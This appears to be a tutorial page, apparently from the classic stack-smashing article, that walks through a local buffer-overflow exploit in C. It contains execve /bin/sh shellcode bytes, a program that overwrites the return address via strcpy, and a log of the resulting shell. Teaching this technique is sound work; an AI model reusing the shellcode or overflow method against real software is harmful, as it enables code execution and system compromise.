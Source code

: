 
Writing an Exploit
===

(or how to mung the stack)
---
{:.subhead}

Lets try to pull all our pieces together.  We have the shellcode.  We know
it must be part of the string which we'll use to overflow the buffer.  We 
know we must point the return address back into the buffer.  This example will
demonstrate these points:

{% highlight C %}
overflow1.c
------------------------------------------------------------------------------
char shellcode[] =
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main() {
  char buffer[96];
  int i;
  long *long_ptr = (long *) large_string;

  for (i = 0; i < 32; i++)
    *(long_ptr + i) = (int) buffer;

  for (i = 0; i < strlen(shellcode); i++)
    large_string[i] = shellcode[i];

  strcpy(buffer,large_string);
}
------------------------------------------------------------------------------
{% endhighlight %}

```
------------------------------------------------------------------------------
[aleph1]$ gcc -o exploit1 exploit1.c
[aleph1]$ ./exploit1
$ exit
exit
[aleph1]$
------------------------------------------------------------------------------
```

What we have done above is filled the array large_string[] with the
address of buffer[], which is where our code will be.  Then we copy our
shellcode into the beginning of the large_string string.  strcpy() will then
copy large_string onto buffer without doing any bounds checking, and will
overflow the return address, overwriting it with the address where our code
is now located.  Once we reach the end of main and it tried to return it
jumps to our code, and execs a shell.

